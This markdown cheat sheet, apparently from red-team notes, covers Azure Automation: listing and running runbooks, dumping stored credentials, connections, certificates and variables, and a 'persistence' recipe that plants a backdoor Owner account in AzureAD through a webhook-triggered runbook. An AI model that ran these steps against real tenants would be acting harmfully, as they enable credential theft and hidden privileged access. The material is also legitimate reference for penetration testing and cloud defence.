 # Azure Services - Runbook and Automation

## Runbook

Runbook must be **SAVED** and **PUBLISHED** before running it.

### List the Runbooks

```ps1
Get-AzAutomationAccount | Get-AzAutomationRunbook
```

### Create a Runbook

* Check user right for automation
    ```powershell
    az extension add --upgrade -n automation
    az automation account list # if it doesn't return anything the user is not a part of an Automation group
    az ad signed-in-user list-owned-objects
    ```
* Add the user to the "Automation" group: `Add-AzureADGroupMember -ObjectId <OBJID> -RefObjectId <REFOBJID> -Verbose`
* Get the role of a user on the Automation account: `Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>`. NOTE: Contributor or higher privileges accounts can create and execute Runbooks
* List hybrid workers: `Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>`
* Create a Powershell Runbook: `Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose`
* Publish the Runbook: `Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose`
* Start the Runbook: `Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose`


## Automation Account

### List Automation Accounts

Azure Automation provides a way to automate the repetitive tasks you perform in your Azure environment.

```ps1
Get-AzAutomationAccount
```

### Get Automation Credentials

```ps1
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationVariable
```


### Persistence via Automation Accounts

* Create a new Automation Account
    * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
    * Sample runbook https://github.com/NetSPI/MicroBurst
    * Publish the runbook
    * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
    * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Trigger the webhook with a post request to create the new user

    ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```


## Desired State Configuration

### List the DSC

```ps1
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
```

### Export the configuration

```ps1
$DSCName = ${dscToExport}
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -march $DSCName} | Export-AzAutomationDscConfiguration -OutputFolder (get-location) -Debug
```


## References

* []()